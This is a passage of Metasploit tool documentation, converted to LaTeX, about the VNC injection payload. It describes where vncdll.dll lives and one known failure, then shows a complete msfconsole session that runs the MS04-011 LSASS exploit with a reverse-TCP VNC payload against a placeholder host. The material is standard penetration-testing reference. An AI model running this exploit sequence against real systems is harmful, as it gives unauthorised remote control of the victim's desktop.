 \documentclass{report}
\begin{document}
\par
If there is no interactive user logged into the system or the screen has been
locked, the command shell can be used to launch explorer.exe anyways. This can
result in some very confused users when the logon screen also has a Start Menu.
If the interactive desktop is changed, either through someone logging into the
system or locking the screen, the VNC server will disconnect the client. Future
versions may attempt to follow a desktop switch.

\par
To use the VNC injection payloads, specify the full path to the VNC server as
the value of the \texttt{DLL} option. The VNC server can be found in the
\texttt{data} subdirectory of the Metasploit root directory and is named
\texttt{vncdll.dll}. The source code of the DLL can be found in
\texttt{external/source/vncdll}.

\par
There are a few situations where the VNC inject payload will simply not work.
These problems are often cause by strange execution environments or other issues
related to a specific exploit or injection method. These issues will be
addressed as time permits:

\begin{itemize}
	\item The windows/brightstor/universal\_agent exploit will cause the VNC
    payload to crash, possibly due to a strange heap state.
\end{itemize}

\begin{verbatim}
msf > use windows/smb/ms04_011_lsass
msf exploit(ms04_011_lsass) > set RHOST some.vuln.host
RHOST => some.vuln.host
msf exploit(ms04_011_lsass) > set PAYLOAD windows/vncinject/reverse_tcp
PAYLOAD => windows/vncinject/reverse_tcp
msf exploit(ms04_011_lsass) > set LHOST your.own.ip
LHOST => your.own.ip
msf exploit(ms04_011_lsass) > set LPORT 4321
LPORT => 4321
msf exploit(ms04_011_lsass) > exploit
\end{verbatim}

If the \texttt{vncviewer} application is in your path and the AUTOVNC option has
been set (it is by default), Metasploit will automatically open the VNC desktop.
If you would like to connect to the desktop manually, \texttt{set AUTOVNC 0},
then use \texttt{vncviewer} to connect to 127.0.0.1 on port 5900.

\pagebreak

\chapter{More Information}
\end{document}

